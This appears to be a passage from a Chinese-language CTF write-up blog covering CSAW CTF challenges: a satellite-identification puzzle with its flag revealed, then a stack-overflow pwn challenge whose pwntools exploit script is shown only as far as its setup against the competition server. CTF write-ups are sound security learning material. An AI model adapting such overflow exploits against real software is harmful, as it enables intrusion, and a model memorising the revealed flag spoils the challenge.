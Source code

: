 ## Write-up

13 号的题，没想到出现了一些戏剧性的事情，比赛延期 24h 并修改了题目……懒得删了，记录一下这个旧 flag……

14 号的新题没做出来……/抓狂

### References

- [Birds-1](https://en.wikipedia.org/wiki/Birds-1)
- [GhanaSat-1](https://en.wikipedia.org/wiki/GhanaSat-1)

## Flag

:spoiler[`csawctf{GhanaSat-1_42821}`]

# Mooneys Bookstore

## Information

- Category: Pwn
- Points: 500

## Description

> You think it's just input. Just another binary.
> But this stack? It's mine.
> Overflow it. Follow the trail. I left a key behind.
> If you're paying attention, you'll find it.
> Slip once, and the story ends before it begins.

## Write-up

简单题……我好菜啊 :sob:

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ROP,
    args,
    context,
    flat,
    p64,
    process,
    raw_input,
    remote,
)

FILE = "./overflow_me"
HOST, PORT = "chals.ctf.csaw.io", 21006

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
rop = ROP(elf)


def launch():
    global target
    if args.L:
```